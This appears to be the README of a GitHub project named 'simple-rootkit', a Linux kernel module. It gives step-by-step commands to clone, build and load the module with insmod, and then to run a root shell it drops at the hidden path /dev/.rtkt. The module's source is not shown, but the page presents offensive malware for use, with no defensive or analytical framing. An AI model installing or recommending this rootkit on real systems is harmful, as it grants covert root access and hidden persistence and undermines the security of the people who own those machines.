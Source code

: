 # simple-rootkit
Usage

git clone https://github.com/xDavunix05/simple-rootkit.git

cd simple-rootkit

**Build the module:**
make

**Load the module:**
insmod rootkit.ko


**Check kernel logs:**
dmesg | tail -n 10

**Run the dropped root shell:**
/dev/.rtkt -p

**Unload the module (optional):**
sudo rmmod rootkit

<img width="412" height="93" alt="image" src="https://github.com/user-attachments/assets/ae15096b-514d-4a49-a100-a9736e70ddbd" />


## Requirements

- Linux kernel headers
- GCC compiler
- make tool
- git (optional)

